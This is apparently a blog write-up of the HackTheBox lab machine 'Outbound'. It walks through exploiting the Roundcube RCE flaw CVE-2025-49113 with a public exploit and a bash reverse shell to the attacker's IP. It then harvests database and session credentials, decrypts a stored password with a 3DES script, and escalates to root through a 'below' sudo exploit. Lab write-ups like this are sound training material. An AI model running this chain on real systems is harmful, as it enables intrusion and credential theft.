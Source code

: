 ```yaml
---
layout: default
title: "Outbound HTB Writeup"
date: 2025-07-20 13:54:00 +0300
categories: [HTBs]
tags: [cybersecurity, hacking, hackthebox, machines]
---
```


# Outbound HTB Writeup

## Importance of This Machine

Hello! Today I want to talk about a machine called **Outbound**. In my opinion, this machine was a great example of how important it is to keep up with cybersecurity news. In June 2025, the mail provider **cock.li** was hacked using a vulnerability identified as **CVE-2025-49113**.

## What is CVE-2025-49113?

**CVE-2025-49113** is an **authenticated remote code execution (RCE)** vulnerability in **Roundcube Webmail**.

## Writeup

### Initial Scanning

I started with an Nmap scan:

```

nmap -sV 10.10.11.77

```

Only two ports were open:

- SSH (22)
- HTTP (80)

### Exploring the Web Service

When I visited the HTTP port in the browser, I realized I needed to add `mail.outbound.htb` to my `/etc/hosts` file.

After that, accessing the domain revealed a Roundcube login page.

> (I actually remembered this from a previous leak 😅)

According to the information on the [Hack The Box machine page](https://app.hackthebox.com/machines/Outbound), we are given credentials for a user named **tyler**.

---

### Exploiting CVE-2025-49113

I used the public exploit for CVE-2025-49113:

```bash
wget https://raw.githubusercontent.com/fearsoff-org/CVE-2025-49113/refs/heads/main/CVE-2025-49113.php
```

Then ran:

```bash
php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c 'sh -i >& /dev/tcp/10.10.14.87/2311 0>&1'"
```

> ✅ This gave me a shell as the `www` user!

---

### Enumeration

Inside the web directory, I found the Roundcube configuration file:

```bash
cat /var/www/html/roundcube/config/config.inc.php
```

It contained MySQL credentials:

```
Username: roundcube  
Password: RCDBPass2025
```

I logged into the database:

```bash
mysql -u roundcube -pRCDBPass2025 -h localhost roundcube
```

Then ran:

```sql
USE roundcube;
SELECT * FROM session;
```

This revealed base64-encoded serialized session data. After decoding it, I found:

```
username|s:5:"jacob";
password|s:32:"L7Rv00A8TuwJAr67kITxxcSgnIk25Am/";
```

---

### Cracking the Password

To decrypt the password, I used the following Python script:

```python
from Crypto.Cipher import DES3
from base64 import b64decode

def decrypt_password(encrypted_password, key="rcmail-!24ByteDESkey*Str"):
    try:
        des_key = key.encode('utf-8')
        data = b64decode(encrypted_password)
        iv = data[:8]
        ciphertext = data[8:]
        
        cipher = DES3.new(des_key, DES3.MODE_CBC, iv=iv)
        decrypted = cipher.decrypt(ciphertext)
        
        return decrypted.rstrip(b"\0").decode('utf-8', errors='ignore')
        
    except Exception as e:
        return f"Error: {str(e)}"

encrypted = "L7Rv00A8TuwJAr67kITxxcSgnIk25Am/"
print(f"Decrypted password: {decrypt_password(encrypted)}")
```

**Output:**

```
Decrypted password: ********
```

Now, I could log in via SSH using Jacob’s credentials.

---

### Privilege Escalation

Once inside, I ran:

```bash
sudo -l
```

I had permission to run a binary called `below`. After some quick research, I found a [privilege escalation exploit](https://github.com/rvizx/CVE-2025-27591) for it.

Running the exploit script gave me **root access**.

---

Thanks for reading! 😄
Happy hacking!

